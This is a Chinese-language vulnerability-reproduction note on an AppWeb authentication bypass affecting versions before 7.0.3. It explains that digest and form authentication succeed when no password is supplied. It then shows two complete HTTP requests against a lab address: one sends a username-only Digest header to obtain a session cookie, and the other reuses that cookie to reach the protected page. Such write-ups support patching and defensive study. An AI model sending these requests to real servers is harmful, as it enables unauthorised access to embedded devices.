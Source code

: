 # AppWeb认证绕过漏洞

> 漏洞说明

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。



> 前提条件

需要知道环境中一个已经存在的用户名

版本：AppWeb < 7.0.3



> 利用工具



> 漏洞复现

访问http://192.168.40.77:8080/可以看到digest认证页

![image-20221218132850553](../img/AppWeb_CVE-2018-88715/image-20221218132850553.png)

构造请求头

```http
GET http://192.168.40.77:8080/ HTTP/1.1
Host: 192.168.40.77:8080
Cache-Control: max-age=0
Authorization: Digest username="admin"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

可以看到响应状态码为200，并且包含一个cookie

![image-20221218132730575](../img/AppWeb_CVE-2018-88715/image-20221218132730575.png)

利用cookie构造请求包

```http
GET http://192.168.40.77:8080/ HTTP/1.1
Host: 192.168.40.77:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: -http-session-=1::http.session::d7baccc2d348d7bf9455fd6a16c356f9
Connection: close


```

成功访问到需要认证的页面

![image-20221218133904302](../img/AppWeb_CVE-2018-88715/image-20221218133904302.png)